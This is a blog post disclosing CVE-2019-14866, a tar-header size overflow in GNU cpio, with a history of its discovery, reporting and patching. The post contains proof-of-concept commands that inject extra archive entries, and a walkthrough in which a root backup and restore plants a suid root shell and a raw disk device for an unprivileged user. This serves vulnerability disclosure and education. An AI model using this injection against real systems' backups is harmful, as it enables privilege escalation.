 ```yaml
---
layout: post
title:  "CVE 2019-14866: GNU cpio"
date:   2019-11-10 00:00:00 +0000
categories: security, linux, openbsd
---
```


I found a security bug in GNU cpio and thought I'd write down the
story of that. It's not the most interesting bug in the world, but it
may still be an interesting story to some.

## An odd limit

The whole thing started with me looking at the [manpage][manpage]
```
-H, --format=FORMAT
  Use given archive FORMAT. Valid formats are (the number in
  parentheses gives maximum size for individual archive member):
  bin    The obsolete binary format. (2147483647 bytes)
  odc    The old (POSIX.1) portable format. (8589934591 bytes)
  newc   The new (SVR4) portable format, which supports file
         systems having more than 65536 i-nodes. (4294967295 bytes)
  crc    The new (SVR4) portable format with a checksum added.
  tar    The old tar format. (8589934591 bytes)
  ustar  The POSIX.1 tar format. Also recognizes GNU tar archives, which are
         similar but not identical. (8589934591 bytes)
  hpbin  The obsolete binary format used by HPUX's cpio (which stores device
         files differently).
  hpodc  The portable format used by HPUX's cpio (which stores device files
         differently).
```

What's wrong with this picture? Those are some very odd size
limits. 2GiB and 4GiB I understand, as it's 32bit signed and unsigned
int. But `tar` having a max size of 8GiB? 33 bits? That doesn't make
any sense.

I was lucky finding this because some versions of the manpage doesn't
have this info. E.g. [this][manpage-bad1] and [this][manpage-bad2].

Turns out the [`tar` header format][tarheader] stores file size in 12
bytes, *as a string*… *in octal!* There are variants and extensions,
but long story short that's the common limit.

That's… terrible. But it's a format from the stone age, so maybe can
be forgiven.

## I wonder what happens if you exceed that limit… oh… oh no

```
$ dd if=/dev/zero seek=16G bs=1 count=0 of=testfile.dat
$ echo testfile.dat | cpio -H tar -o | tar tf -
-rw-r--r-- 1000/1000         0 2019-11-07 13:04 testfile.dat
                          ^^^^\--- That's the size according to tar.
$ echo testfile.dat | cpio -H tar -o | wc -c
                          17179870720
                          ^^^^^^^^^^^\-- That's the total size of the tar file file.
```

oh no. The `tar` format is a series of "hey, here comes a file named
X, that's Y bytes long, after those Y bytes I'll tell you about the
next file".

I've generated a `tar` file that says "hey, here comes a file named
testfile.dat that's 0 bytes long. After those 0 bytes comes another
file header."

This means I can make `cpio` read data (contents of file it reads),
and write it as if it's metadata (a `tar` header):

```
$ tar cf suffix.tar AUTHORS                            # Create some payload.
$ dd if=/dev/zero seek=16G bs=1 count=0 of=suffix.tar  # Pad it to "look like" 0 bytes.
$ echo suffix.tar | cpio -H tar -o | tar tvf -         # Feed it to cpio.
    -rw-r--r-- 1000/1000       0 2019-08-30 16:40 suffix.tar
    -rw-r--r-- thomas/thomas 161 2019-08-30 16:40 AUTHORS
```

The point here is that `cpio` was fed *one* file (suffix.tar) to put
into the tar file, but it put *two* files in there. `cpio` never read
`AUTHORS`, and it should not be listed.

## But so what?

The above is obviously wrong, but how is it a security issue?

It's a security issue because it's not just the contents of the
injected files that can have arbitrary content, but also the type of
file, owner, and suid bits.

I could prepare a payload `tar` file that contains a suid root shell,
and a `/dev/sda` block device.

```
evil$ # 1) Prep payload
evil$ ./generate_evil_data --out /home/evil/foo.tar

root# # 2) root user performs backup
root# find /home -print0 | cpio -0 -H tar -o > /var/backup/h.tar

root# # 3) root user restores
root# cd /
root# tar xf /var/backup/h.tar /home/evil/

evil$ # 4) evil user uses newly created rootshell, or writes to /dev/sda
evil$ ls -l /home/evil/
srwxr-xr-x 1 evil evil 61176 Aug  3  2018 /home/evil/rootshell
brw-rw---- 1 evil evil  8, 0 Oct  7 11:21 /home/evil/sda-pwned
evil$ /home/evil/rootshell
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Finding the code culprit

```
static void    // [no error checking]
to_oct(long value, […])
{
  [… write up to 11 octal ascii bytes as possible, plus NUL byte,
     not checking if `value` didn't fit …]
}
[…]
void           // [no error checking]
write_out_tar_header (struct cpio_file_stat *file_hdr, int out_des)
[…]
  write_out_header([…])
[…]
write_out_tar_header (file_hdr, out_des); /* FIXME: No error checking */
return 0;    // [0 means success]
```

That "FIXME" is in the original, and appears to have been there since
at least 1994.

There may be millions of scripts out there using cpio that are
vulnerable.

The `tar` format is largely to blame here. It's a ["packet in packet"
attack][packet-in-packet] which could have been prevented if `tar`,
like many many other formats and protocols, used [a regular
language][regular] (also see [this talk][formal-theory]).

Well the `tar` format and a code bug from like 1994.

## So is this only GNU, or more implementations?

OpenBSD, [as usual][openbsd], is fine. I've not checked other
implementations. But it sure is [pushing me from Linux to
OpenBSD](https://blog.habets.se/2019/10/OpenBSD-in-2019.html).

## Reporting

I [reported][report] to the bug-cpio mailing list, being a bit vague
describing it only as "hey, that's surprising output", hoping to get
the patch in early.

10 days with no reply later I emailed the Debian package maintainer
and cpio owner directly. No response.

Another week later I started emailing security@debian.org and
secalert@redhat.com.  Redhat took 10 days to respond. Debian 13 days.

It took a bit of back and forth to explain why this was a security
issue, but RedHat eventually created CVE 2019-14866.

On 2019-10-25 the `cpio` maintainer creates creates [a separate
patch][upstream-patch] for the problem. It's multiple changes in one,
which is [not great][small-cls], so for backporting the change to
Debian old and oldold stable the Debian package maintainer chose to go
with my minimal patch (with a 32bit arch fix).

## Other links

* Ubuntu (calls this expose of info, but it's privesc).
  * [page](https://usn.ubuntu.com/4176-1/),
  * [email](https://lists.ubuntu.com/archives/ubuntu-security-announce/2019-November/005185.html)
* Debian
  * [page](https://security-tracker.debian.org/tracker/CVE-2019-14866)
* Redhat
  * [page](https://bugzilla.redhat.com/show_bug.cgi?id=1765511)

## PS

Oh no, I forgot to give the bug a name, logo, and website. :-(

[manpage]: https://manpages.debian.org/buster/cpio/cpio.1.en.html
[manpage-bad1]: https://linux.die.net/man/1/cpio
[manpage-bad2]: https://www.commandlinux.com/man-page/man1/cpio.1.html
[tarheader]: https://manpages.debian.org/buster/libarchive-dev/tar.5.en.html
[formal-theory]: https://www.youtube.com/watch?v=AqZNebWoqnc
[packet-in-packet]: https://www.youtube.com/watch?v=euMHlV6MNqs
[regular]: https://www.youtube.com/watch?v=3kEfedtQVOY
[report]: https://lists.gnu.org/archive/html/bug-cpio/2019-08/msg00003.html
[upstream-patch]: http://git.savannah.gnu.org/cgit/cpio.git/commit/?id=7554e3e42cd72f6f8304410c47fe6f8918e9bfd7
[small-cls]: https://google.github.io/eng-practices/review/developer/small-cls.html
[openbsd]: https://blog.habets.se/2010/09/gettimeofday-should-never-be-used-to-measure-time.html

